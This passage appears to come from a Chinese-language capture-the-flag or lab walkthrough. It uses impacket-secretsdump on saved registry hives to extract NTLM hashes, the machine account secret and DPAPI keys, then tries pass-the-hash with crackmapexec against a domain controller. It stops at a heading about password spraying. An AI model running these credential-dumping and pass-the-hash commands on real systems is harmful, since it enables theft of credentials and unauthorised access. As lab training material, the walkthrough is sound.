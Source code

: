 ```PowerShell
impacket-secretsdump -sam SAM.save  -system SYSTEM.save -security SECURITY.save LOCAL 

Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[\*] Target system bootKey: 0x0c7ad5e1334e081c4dfecd5d77cc2fc6
[\*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[\*] Dumping cached domain logon information (domain/username:hash)
[\*] Dumping LSA Secrets
[\*] $MACHINE.ACC
$MACHINE.ACC:plain\_password\_hex:30d0ca9ed25597562013a17fe07bcc24a8063aa89da83698090451d4f9c01497d07956aee9f517760560ca9817836b8aaa5a0706c8e3d358c8248d48c5c42388c80af03a4c70c4e75a55066bbc2ea68747c758fe4e41e80a4a6a2d9c9bd68c94ebc3e8fbbc89d06985163c8de5071d80a1c55c33a83b3c006c123eae6c0e5706412271e110ae7fd8e39482ae539bb6f9441b2340dbcd8fb1593198b778f09317469e8dd572d14e42031997298f68ec498f5bb6a2c295cd7c9dbadfcb88f74e7e0cb5b25b39ca43d970cb8c1b5b506c316438d7de4c8d0d6b1ac2f2985ef7eb35e0951cff704cae50ac45eff772a29f9e
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:f984aa0aa19fcb118d6b20506ce75c6d
[\*] DPAPI\_SYSTEM
dpapi\_machinekey:0x829d1c0e3b8fdffdc9c86535eac96158d8841cf4
dpapi\_userkey:0x4813ee82e68a3bf9fec7813e867b42628ccd9503
[\*] NL$KM
 0000   44 C5 ED CE F5 0E BF 0C  15 63 8B 8D 2F A3 06 8F   D........c../...
 0010   62 4D CA D9 55 20 44 41  75 55 3E 85 82 06 21 14   bM..U DAuU>...!.
 0020   8E FA A1 77 0A 9C 0D A4  9A 96 44 7C FC 89 63 91   ...w......D|..c.
 0030   69 02 53 95 1F ED 0E 77  B5 24 17 BE 6E 80 A9 91   i.S....w.$..n...
NL$KM:44c5edcef50ebf0c15638b8d2fa3068f624dcad95520444175553e85820621148efaa1770a9c0da49a96447cfc896391690253951fed0e77b52417be6e80a991
[\*] Cleaning up...
```
发现这里面有Administrator用户的hash

```PowerShell
Administrator:500:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
```
尝试能不能使用这个hash进行登录

```PowerShell
crackmapexec smb DC01.SOUPEDECODE.LOCAL -u 'Administrator' -H 209c6174da490caeb422f3fa5a7ae634
SMB         SOUPEDECODE.LOCAL 445    DC01             [\*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\Administrator:209c6174da490caeb422f3fa5a7ae634 STATUS\_LOGON\_FAILURE
```
登录失败了

没关系我们还有机器账户的hash ($MACHINE.ACC)

```PowerShell
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:f984aa0aa19fcb118d6b20506ce75c6d
```
### 6.1. 利用机器hash进行密码喷射
